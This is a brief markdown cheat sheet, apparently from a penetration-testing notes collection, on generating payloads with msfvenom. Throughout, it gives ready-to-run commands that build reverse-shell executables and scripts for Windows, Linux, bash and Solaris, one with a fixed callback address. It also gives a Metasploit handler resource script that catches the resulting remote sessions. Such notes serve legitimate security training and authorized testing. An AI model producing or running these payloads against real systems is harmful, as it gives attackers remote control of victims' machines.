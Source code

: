 ```yaml
---
description: >-
  MsfVenom is a Metasploit standalone payload generator as a replacement for
  msfpayload and msfencode.
---
```


# msfvenom

**Example:** 

`msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP} LPORT={Port} -f exe -o shell.exe` 

**Handler**: 

```text
Use exploit/multi/handler  
set PAYLOAD  
set LHOST  
set LPORT  
set ExitOnSession false  
exploit -j -z 
```

\*copy into a file with .rc extenation and run as: 

`msfconsole -r example.rc` 

   
**Common payloads:** 

**Linux**: 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf` 

**Windows**: 

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe` 

**Bash**: 

`msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh` 

**Solaris**: 

`msfvenom -p solaris/x86/shell_reverse_tcp lhost=10.10.14.6 lport=5555 -f elf > /root/Desktop/raj.elf` 

